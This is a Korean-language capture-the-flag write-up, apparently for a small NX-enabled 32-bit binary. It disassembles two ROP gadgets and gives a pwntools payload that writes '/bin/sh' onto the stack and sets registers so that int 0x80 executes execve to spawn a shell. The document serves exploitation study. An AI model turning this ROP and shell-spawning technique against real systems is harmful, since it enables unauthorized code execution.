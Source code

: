 ## 함수 분석 / 취약점 발견
* checksec으로 NX bit가 걸려있어 기존의 LOB처럼 stack에서 shellcode를 실행시키지는 못한다.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x080480d8  gadget1
0x080480db  gadget2
0x080480dd  _start
0x080480f7  write
```
### gadget1
```
   0x080480d8 <+0>:	rep stos BYTE PTR es:[edi],al
   0x080480da <+2>:	ret 
```
* gadget1은 ecx만큼 edi에 al의 값을 넣는다.

### gadget2
```
   0x080480db <+0>:	popa
   0x080480dc <+1>:	ret
```
* register( EDI ESI EBP ESP EBX ECX EDX EAX)들을 pop 하는 gadget이다.
write
```
   0x080480f7 <+0>:	mov    eax,0x4
   0x080480fc <+5>:	mov    ebx,DWORD PTR [esp+0x4]
   0x08048100 <+9>:	mov    ecx,DWORD PTR [esp+0x8]
   0x08048104 <+13>:	mov    edx,DWORD PTR [esp+0xc]
   0x08048108 <+17>:	int    0x80
   0x0804810a <+19>:	ret 
```
* int 0x80이 있어 register의 값을 조정하고 "/bin/sh\x00"을 입력할 수 있다면 `execve("/bin/sh", NULL, NULL)`을 실행할 수 있다.
## 구현
* pwntool 사용
1. /bin/sh에 해당하는 ascii 값을 입력시켜준다. /bin/sh 문자열은 stack에 저장하였다.
```python
payload = 0
for index, ascnum in enumerate([47, 98, 105, 110, 47, 115, 104]):
    print(index, ascnum)
    if payload == 0:
        payload = gadget2_addr + p32(0xff85ca58 + index) + p32(1) * 6 + p32(ascnum) + gadget1_addr
    else:
        payload += gadget2_addr + p32(0xff85ca58 + index) + p32(1) * 6 + p32(ascnum) + gadget1_addr
```
2. 이후 gadget2로 pop을 하기전 stack을 잘 구성해서 ebx는 /bin/sh가 있는 주소로, ecx와 edx는 0으로 해주고, eax는 11로 설정해준다.
* int 0x80시 execve를 호출한다.
```
payload += gadget2_addr + p32(0) * 4 + stack_addr + p32(0) * 2 + p32(11) + int80_addr
```
